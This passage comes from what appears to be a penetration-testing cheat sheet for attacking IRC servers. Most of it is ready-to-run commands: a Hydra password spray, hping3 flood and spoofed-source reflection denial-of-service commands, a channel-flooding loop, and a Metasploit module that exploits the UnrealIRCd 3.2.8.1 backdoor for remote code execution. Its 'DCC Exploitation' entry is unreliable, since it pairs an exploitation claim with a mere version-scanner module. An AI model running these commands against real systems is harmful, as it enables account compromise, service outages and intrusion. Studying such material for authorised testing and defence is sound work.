 ### Password Spray
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra irc://<target_ip> -s 6667 -l <username_list> -P <password>
    ```
- **Description:** Test a multiple usernames against a single password.

## Denial of Service

### Techniques:

### TCP/UPD Flood Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip> -p 6667 --flood --rand-source -c 1000
    ```
- **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

### TCP/UDP Reflection Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip_1> -p 6667 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
- **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

### Channel Flooding
- **Tool:** [[IRC]]
    ```bash
    while true; do /msg #channelname :message; done
    ```
- **Description:** Floods a channel with messages, disrupting legitimate communication.

## Exploits 

### UnrealIRCd Backdoor
- **Tool:** [[Metasploit]]
    ```bash
    use exploit/unix/irc/unreal_ircd_3281_backdoor
    set RHOST <target_ip>
    set RPORT 6667
    run
    ```
- **Description:** Exploits a backdoor in UnrealIRCd 3.2.8.1 to gain remote code execution.

### DCC Exploitation
- **Tool:** [[Metasploit]]
    ```bash
    use auxiliary/scanner/irc/irc_version
    set RHOSTS <target_ip>
    run
    ```
- **Description:** Exploits vulnerabilities in DCC to gain unauthorized access to client systems.
